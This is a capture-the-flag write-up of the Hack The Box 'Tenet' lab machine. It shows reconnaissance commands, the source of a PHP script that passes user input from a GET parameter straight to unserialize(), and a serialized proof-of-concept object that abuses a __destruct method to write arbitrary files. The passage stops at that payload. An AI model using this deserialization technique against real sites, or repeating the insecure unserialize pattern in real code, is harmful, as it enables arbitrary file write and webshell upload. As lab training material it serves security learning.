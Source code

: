 ## HTB Tenet (Medium) - Writeup

Difficulty: Medium

On the Tenet machine, I discovered a WordPress site and found a developer comment referencing sator.php and a backup file.  
Accessing sator.php.bak revealed a PHP deserialization vulnerability, which I exploited to upload a webshell.  
I then found database credentials in wp-config.php, used them to switch to user neil.  
Finally escalated to root by abusing a race condition in a misconfigured enableSSH.sh script.  

---

## Nmap 

#### The nmap scan revealed two open ports:

![obraz](https://github.com/user-attachments/assets/b026723f-f60b-4dbe-ae80-b06ab07c9a34)


## Port 80 - Website

On port 80 we have default apache page.  

![obraz](https://github.com/user-attachments/assets/fa982757-a908-4bba-94ef-2e1f90300274)

Now we will do directory busting with feroxbuster:  
```
feroxbuster --url http://10.10.10.223
```

![obraz](https://github.com/user-attachments/assets/b2831233-0e87-476b-b2a9-e45341129a9c)

We've found wordpress directories.  
Everytime I encounter a website made in wordpress I run wpscan to look for vulnerable plugins.  
```
wpscan --url http://10.10.10.223 --plugins-detection mixed --api-token xxxxxxx
```

![obraz](https://github.com/user-attachments/assets/61d3140b-6f4d-4c32-a4c4-96f0b25fa58b)

If you don't have an api token just create an account on wpscan website and claim yours.  
We used the mixed detection method, which performs plugin brute-forcing.  
If we had relied solely on passive detection, many plugins would have been missed.  

![obraz](https://github.com/user-attachments/assets/93001081-e523-4421-a43f-4e9d65e3d087)

It has found akismet but besides that nothing of interest.  
Now I'll add tenet.htb to /etc/hosts  

![obraz](https://github.com/user-attachments/assets/2c4665bc-a354-47b8-82ec-20a96a7c2c32)

While exploring the site, I came across a comment:  

![obraz](https://github.com/user-attachments/assets/ff0e22af-9ec5-413f-8ce1-93457c24c061)

Let's look for this "sator" file.  
On tenet.htb it didn't work:  
```
http://tenet.htb/sator.php
```

But on apache default page it worked:  
```
http://10.10.10.223/sator.php
```

![obraz](https://github.com/user-attachments/assets/0eb5c304-ee2a-4919-84dd-b6dd00d77250)

They also mentioned sator backup file, let's try to retrieve it:  
```
http://10.10.10.223/sator.php.bak
```

We can download it and look at the source code:  

![obraz](https://github.com/user-attachments/assets/d05c332c-a01c-4226-adaf-ded2c34edcc7)

```php
<?php

class DatabaseExport
{
        public $user_file = 'users.txt';
        public $data = '';

        public function update_db()
        {
                echo '[+] Grabbing users from text file <br>';
                $this-> data = 'Success';
        }


        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

First thing that immediately stands out is dangerous usage of unserialize function.  
This script passes user input to unserialize() which can be abused in deserialization attack.  

The script takes user input from the arepo GET parameter and passes it directly to the unserialize() function.  
This allows us to create a PHP object from user input.  
When the script finishes, PHP automatically destroys all objects, which triggers the __destruct() method of our crafted object.  
It means that __desctruct() will run against our object.  


## PHP Deserialization attack

POC payload would look like this:  
```
{% raw %} O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"test.txt";s:4:"data";s:11:"Hello World";} {% endraw %}
```








































